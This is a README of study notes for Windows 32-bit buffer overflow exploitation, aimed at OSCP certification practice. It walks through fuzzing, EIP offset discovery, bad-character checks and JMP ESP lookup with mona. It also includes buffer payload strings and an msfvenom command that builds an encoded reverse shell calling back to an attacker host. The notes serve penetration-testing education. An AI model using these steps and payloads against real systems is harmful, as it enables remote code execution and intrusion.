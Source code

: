 # Win32-Buffer-Overflow
 Notes and scripts for a basic windows 32-bit buffer overflow exploit development. Aimed for OSCP preparation.

## Contents

[Introduction](#Introduction)

[TL;DR]('#TLDR')

[Global Steps](#Global-Steps)

[Methodology](#Methodology)

[Template Scripts](/Scripts)

[Walkthroughs](/Walkthroughs)

# Introduction

## First some basics!

**Some basic understanding of buffer overflow can be found [here](https://www.youtube.com/watch?v=1S0aBV-Waeo).**

The x86 architecture does contain 8 general registers that are used to store data and then can address that point to other positions in the memory.

* EBP (base pointer)
* ESP (stack pointer)
* EAX (accumulator)
* EBX (base)
* ECX (counter)
* EDX (data)
* EDI (destination index)
* ESI (source index)

**EIP**: Extended Instruction Pointer. This is a read-only register and does contain the address of the next instruction to be executed (tells the CPU what to do next).

**ESP**: Extended Stack Pointer. Points to the top of the stack (at any time) at the lower memory location.

**EBP**: Extended Base Stack Pointer. Points to higher address (last item) at the bottom of the stack.

**JMP**: In the x86 assembly language, the JMP instruction performs an unconditional jump. Such an instruction transfers the flow of execution by changing the instruction pointer register. 

This should give a good idea about "what" and "why" of **JMP-ESP** [here](https://security.stackexchange.com/questions/157478/why-jmp-esp-instead-of-directly-jumping-into-the-stack). The OPCODE for JMP ESP is \xff\xe4 (in assembly). 
* * *


# TLDR

**Steps:**
- [ ] Find offset
- [ ] Ensure control over EIP at found offset (4 B’s)
- [ ] Find bad characters
- [ ] Find return address (JMP ESP)
- [ ] Ensure EIP overwrite (Breakpoint - F2 - at return address )
- [ ] Ensure buffer length for shellcode is good enough
- [ ] Get a shell

# Global-Steps

*Note: These steps are a reminder of the global Windows buffer overflow and are not intended to be a manual :)*

**Step 1**: fuzz till crash and note EIP is overwritten by A's (x41).

**Step 2**: use pattern_create.rb to generate unique string and send it to target
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700`

**Step 3**: identify 4 bytes that overwrite EIP (this is in HEX)

**Step 4**: use pattern_offset.rb to calculate the offset of these specific 4 bytes
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438`

**Step 5**: send new buffer string to check if we can control the EIP register, since it should be written over with B's. Add to exploit and notice the result of the ESP and EIP registers:
`buffer = "A" * 2606 + "B" * 4 + "C" * 90`

**Step 6**: check if more space within buffer is available (increase buffer length from 2700 to 3500 bytes and see if this results in a larger buffer space for our shellcode). Fire up “morespace.py” -> right click ESP -> follow in dump. Add to exploit and check for C's:
`buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)`

**Step 7**: check for bad chars (0x00 to 0xff). Paste all these chars within buffer and check where ESP register dump is truncated (p. 161). Right click ESP and follow in dump to see.
`Notice skipped chars!`

**Step 8**: if we can't jump directly to our buffer, we need to find a reliable address in memory that contains an instruction such as JMP ESP. We could jump to it, and in turn end up at the address pointed to, by the ESP register, at the time of the jump. This would be a reliable indirect way to reacht the memory indicated by ESP register. mona.py can help identify modules in memory that we can search for return address (no DEP and ASLR should be present and high memory range that doesn't contain bad chars)
`!mona modules`
*Check if not being affected by any memory protection schemes (Rebase, SafeSEH, ASLR, NXCompat) and note the specific DLL (right column).*

**Step 9**: JMP ESP equivalent = opcode.
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
```
*Note result as: "\xff\xe4"*

**Step 10**: use mona to find the JMP ESP memory address within the DLL found in step 8. Use one which does not contain any bad chars.
`!mona find -s "\xff\xe4" -m <dllname>.dll`

**Step 11**: pause Immunity Debugger and follow the address (black arrow pointing to right: "Expression to follow"). Note if the JMP ESP is found (pane left above).

**Step 12**: set a breakpoint to check if we can reach the JMP ESP.
*left upper pane -> right click -> go to expression
left upper pane -> right click -> breakpoint -> toggle (F2)
play and do the following:
Add to PoC (the memory address is the one we found in step 10, noted Little Endian):*
`buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390`
*Run PoC and check if breakpoint is hit (message at the bottom of Immunity Debugger).*

**Step 13**: generate reverse shell
`msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"`

**Step 14**: add the reverse shell code to the exploit and change to:
`buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode`
*Increase NOP slide if needed*

* * *

# Methodology

[1. Connection](1_Connection.md)

[2. Fuzzing](2_Fuzzing.md)

[3. Getting Offset](3_Getting-Offset.md)

[4. Controlling EIP](4_Controlling-EIP.md)

[5. Badcharacters](5_Badchars.md)

[6. Finding JMP Pointer](6_Finding-JMP-Pointer.md)

[7. JMP ESP](7_JMP-ESP.md)

[8. Obtaining a Shell](8_Shell.md)

* * *

